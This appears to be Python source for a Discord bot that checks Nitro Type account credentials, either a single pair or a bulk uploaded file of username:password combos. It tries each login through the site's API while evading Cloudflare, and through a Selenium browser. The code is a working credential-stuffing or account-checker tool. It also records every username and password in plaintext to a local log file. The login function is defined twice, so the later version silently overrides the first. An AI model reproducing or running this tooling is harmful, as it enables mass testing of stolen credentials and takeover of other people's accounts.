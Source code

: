 import os
import discord
import cloudscraper as requests
import json
import time
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from discord.ext import commands
from discord import app_commands

def log_account_details(username, password, success, message):
    log_message = f"Username: {username}, Password: {password}, Success: {success}, Message: {message}\n"

    with open("account_log.txt", "a") as log_file:
        log_file.write(log_message)

    print(log_message)

def login_to_nitro_type(username, password):
    login_url = "https://www.nitrotype.com/api/v2/auth/login/username"
    with requests.create_scraper(disableCloudflareV1=True, browser={'custom':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0'}) as session:
        session.headers['x-username'] = username
        session.headers['referer'] = 'https://www.nitrotype.com/login'
        session.headers['origin'] = 'https://www.nitrotype.com/'
        session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0'

        login_data = {
            'username': username,
            'password': password
        }

        response = session.post(login_url, data=login_data)
        
        if response.status_code == 200:
            message = f"Successful Login for Username: {username}!"
            success = True
        else:
            message = f"Failed Login: (Username: {username})"
            success = False
        log_account_details(username, password, success, message)
        
        return success, message

async def info(interaction, file_path):
    credentials = []
    try:
        with open(file_path, 'r') as file:
            for line in file:
                try:
                    username, password = line.strip().split(':')
                    credentials.append((username, password))
                except ValueError:
                    raise ValueError(f"Invalid format in line:'{line.strip()}'. Each line must be in the 'username:password' format.")
        if not credentials:
            raise ValueError("No valid information were found in the file.")
        return credentials
    except Exception as e:
        error_message = f"Error reading file: {e}"
        try:
            await interaction.user.send(error_message)
            await interaction.followup.send(error_message)
        except discord.Forbidden:
            await interaction.response.send_message(f"Unable to send error message to your DM. Please check your privacy settings.", ephemeral=True)
        raise ValueError(error_message)

bot = commands.Bot(command_prefix='/', intents=discord.Intents.all())

@bot.event
async def on_ready():
    print(f"Logged in as {bot.user}!")
    await bot.change_presence(status=discord.Status.dnd, activity=discord.Game(name="Nitro Type"))
    try:
        synced = await bot.tree.sync()
        print(f"Slash commands synced: {len(synced)}")
    except Exception as e:
        print(f"Error syncing commands: {e}")

@bot.tree.command(name="check", description="Check a single Nitro Type account information.")
@app_commands.describe(username="Account Username", password="Account Password")
async def check_account(interaction: discord.Interaction, username: str, password: str):
    if interaction.guild is None:
        await interaction.response.send_message("Sorry, commands cannot be used in DMs.", ephemeral=True)
        return

    success, message = login_to_nitro_type(username, password)

    try:
        await interaction.user.send(message)
        await interaction.response.send_message(f"The result has been sent to your DM, {interaction.user.mention}!", ephemeral=True)
    except discord.Forbidden:
        await interaction.response.send_message("Unable to send DM. Please check your privacy settings.", ephemeral=True)

@bot.tree.command(name="check_bulk", description="Upload a file with Nitro Type account information to check.")
async def check_accounts(interaction: discord.Interaction, file: discord.Attachment):
    await interaction.response.defer()

    file_path = f"credentials_{interaction.user.id}.txt"
    await file.save(file_path)

    try:
        credentials = await info(interaction, file_path)
        results = []
        for username, password in credentials:
            success, message = login_to_nitro_type(username, password)
            results.append(message)

        results_str = "\n".join(results)
        try:
            await interaction.user.send(f"Results:\n{results_str}")
            await interaction.followup.send("Results sent to your DM!")
        except discord.Forbidden:
            await interaction.followup.send("Unable to send DM. Please check your privacy settings.")
    except ValueError as e:
        pass
    finally:
        os.remove(file_path)

def login_to_nitro_type(username, password):
    try:
        service = Service(r"C:\Users\madha\OneDrive\Documents\Visual Studio Code\Start\chromedriver.exe")
        driver = webdriver.Chrome(service=service)

        driver.get("https://www.nitrotype.com/login")
        time.sleep(2)

        username_field = driver.find_element(By.ID, "username")
        password_field = driver.find_element(By.ID, "password")

        username_field.send_keys(username)
        password_field.send_keys(password)

        password_field.send_keys(Keys.RETURN)
        time.sleep(5)

        current_url = driver.current_url
        driver.quit()

        if "garage" in current_url:
            return True, "Login successful!"
        else:
            return False, "Login failed due to captcha or invalid information!"
    except Exception as e:
        return False, f"An error occurred: {e}"

@bot.tree.command(name="login", description="Log in to your Nitro Type account.")
@app_commands.describe(username="Nitro Type username", password="Nitro Type password")
async def login_command(interaction: discord.Interaction, username: str, password: str):
    await interaction.response.defer(ephemeral=True)

    success, message = login_to_nitro_type(username, password)

    if success:
        await interaction.followup.send(f"✅ {message}")
    else:
        await interaction.followup.send(f"❌ {message}")
